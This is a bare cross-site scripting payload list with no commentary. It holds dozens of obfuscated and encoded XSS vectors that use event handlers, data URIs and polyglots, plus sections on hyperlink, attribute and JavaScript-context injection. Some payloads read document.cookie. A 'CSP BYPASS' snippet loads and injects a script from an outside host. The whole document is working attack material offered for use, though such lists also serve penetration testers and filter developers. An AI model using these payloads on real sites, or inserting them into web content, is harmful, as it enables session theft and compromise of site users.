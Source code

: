 <AuDiO/**/oNLoaDStaRt='(_=/**/confirm/**/(1))'/src><!--x

<mArquee onStart=[~[onmouseleave(([[(alert(1))]]))]] ]

<img src="/" =_=" title="onerror='/**/prompt(1)'">

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<a/onmousemove=alert(1)//>xss

<object allowscriptaccess=always><param name=code value=https://l0.cm/xss.swf>

<svg+onload=eval(location.hash.substr(1))>#alert(1)

<details/open/ontoggle=confirm('XSS')>

</script><svg><script>alert(1)/&apos;

<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;// 

<svg </onload ="1> (_=prompt,_(1)) "">

<svg 1=""onload=alert(1)>

<output name="jAvAsCriPt://&NewLine;\u0061ler&#116(1)" onclick="eval(name)">X</output>

<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;23&rpar;&gt;" />

<button onmousemove="javascript:alert(1)">xss

<BoDy%0AOnpaGeshoW=+window.prompt(1)

<a href=[0x0b]xss" onfocus=prompt(1) autofocus fragment="

<isindex type=image src=1 onerror=alert(1)>

<script>a=eval;b=alert;a(b(/ 1/.source));</script>'">

<!'/!"/!\'/\"/--!><Input/Type=Text AutoFocus */; OnFocus=(confirm)(1) //>

<style><img src="</style><img src=x "><object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

<embed src=/x//alert(1)><base href="javascript:\

\u003csvg/onload=alert`1`\u003e

\<svg/onload=alert`1`\>

<article xmlns ="urn:img src=x onerror=xss()//" >xss

i\{\<\/\s\t\y\le\>\<\i\m\g\20\o\ne\r\r\o\r\=\'a\le\r\t\(d\oc\u\me\nt\.c\o\o\kie\)\'\s\rc\=\'eeeeeee\'\20\>{

<img / src = \ 'dfdfd \' // onerror = \ 'alert (document.cookie) \ '>

<img/src=q onerror='new Function`al\ert\`OPENBUGBOUNTY\``'>

<Html Onmouseover=(alert)(1) //

<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>

<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>

&#x003c;img src=1 onerror=confirm(1)&#x003e;

%26%23x003c%3Bimg%20src%3D1%20onerror%3Dalert(1)%26%23x003e%3B%0A

x%22%3E%3Cimg%20src=%22x%22%3E%3C!--%2522%2527--%253E%253CSvg%2520O%256ELoad%253Dconfirm%2528/xss/%2529%253E

<embed src=/x//alert(1)><base href="javascript:\

<x+oncut=y=prompt,y`1`>xss

<svG x=">" onload=(co\u006efirm)``>

<script/xss~~~>;alert(1);</script/X~~~>

<VideO/**/OnerroR=~alert("1")+/SrC>

<video/poster/onerror=prompt(1)>

<sVG/xss/OnLoaD+="window['confirm']+(1)">

<img x/src=x /onerror="x-\u0063onfirm(1)">

<VidEo/oNLoaDStaRt=confirm(1)+/src>

<video/src=//w3schools.com/tags/movie.mp4%0Aautoplay/onplay=(confirm(1))>

<p/%0Aonmouseover%0A=%0Aconfirm(1)>xss

<span/onmouseover=confirm(1)>xss

<iframe/name="javascript:confirm(1);"onload="while(1){eval(name);}">

<svg/onload=window.onerror=alert;throw/XSS/;//

<object data='data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4=' /src>

<InpuT/**/onfocus=pr\u006fmpt(1)%0Aautofocus>xss

<img src="x:alert" onerror="eval(src%2b'(1)')">

<img/src=xss%0A/**/onerror=eval('al'%2b'ert(1)')>

<img/alt=1 onerror=eval(src) src=x:alert(alt) >

<isindex/**/alt=1+src=xss:window['alert']/**/(alt)+type=image+onerror=while(true){eval(src)}>

<input type="text" name="foo" value=""autofocus/onfocus=alert(1)//">

<math href="javascript:alert(1)">CLICKME

<var onmouseover="prompt(1)">xss</var>

<h1/onmouseover='alert(1)'>xss

<object data="javascript:alert(1)">

<--'<script>window.confirm(1)</script> --!>

<div onmouseover=prompt("1")>xss

<img src=x onerror=window.open('data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4=');>

<plaintext/onmousemove=prompt(1)>xss

<marquee/onstart=alert(1)>xss

<embed src=javascript:alert(1)>

<select autofocus onfocus=alert(1)>

<textarea autofocus onfocus=alert(1)>

<keygen autofocus onfocus=alert(1)>

<div/onmouseover='alert(1)'>xss

<svg/onload=document.location.href='https://google.com'>

<audio src=x onerror=confirm("1")>

<iframe src="data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4="/>

<img%09onerror=alert(1) src=a>

<i onclick=alert(1)>Click here</i>

<img src=<b onerror=alert('xss');>

<img src="x:? title=" onerror=alert(1)//">

<img src="x:gif" onerror="eval('al'%2b'ert(/xss/)')">

<img src="x:gif" onerror="window['al\u0065rt'] (/'xss'/)"></img> 

<a onmouseover%3D"alert(1)">xss

<script/%00%00v%00%00>alert(/xss/)</script>

<svg/onload=document.location.href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>

<script>$=1,alert($)</script>

<svg•onload=alert(1)>

<h1/onmouseover='alert(1)'>xss

<video onerror=alert(1337) </poster>

<input onfocus=alert(1337) </autofocus>


CSP BYPASS:

<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


POLYGLOT:

javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


HYPERLINK TAG INJECTION:

javascript:alert(1)

javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")

javascript://%250Aalert(document.cookie)

javascripT://https://google.com%0aalert(1);//https://google.com

/x:1/:///%01javascript:alert(document.cookie)/


INLINE HTML INJECTION WITHOUT TAG BREAK:

" onclick=alert(1)//">click

" autofocus onfocus=alert(1) "

" onfocus=prompt(1) autofocus fragment="

" onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


JAVASCRIPT INJECTION:

'?prompt`1`?'

"])},alert(1));(function xss() {//

""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y

"}]}';alert(1);{{'

11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1

\');confirm(1);//

x");$=alert, $(1);//

'|alert(1)|'

'*prompt(1)*'

"; ||confirm('XSS') || "

"-alert(1)-"

\'-alert(1)};{//

"'-alert(1)-'"

\u0027-confirm`1`-\u0027 

'}};alert(1);{{'
